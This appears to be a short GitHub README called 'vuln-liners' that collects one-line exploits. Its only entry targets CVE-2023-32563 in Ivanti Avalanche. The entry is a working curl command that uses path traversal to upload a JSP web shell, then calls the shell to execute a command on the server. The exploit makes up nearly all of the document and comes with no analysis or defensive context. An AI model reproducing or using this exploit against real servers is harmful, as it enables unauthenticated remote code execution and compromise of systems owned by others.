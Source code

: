 # vuln-liners
One line vulnerabilities

# CVE-2023-32563 (Ivanti Avalanche Pre-auth)
curl -v http://x.x.x.x:1900/Servlet/Skins -F guid=../../../Web/webapps/ROOT -F "file=@-;filename=x.jsp" <<<'<%Runtime.getRuntime().exec(request.getParameter("c"));%>' -: -k https://x.x.x.x:8443/x.jsp -d c=mspaint.exe
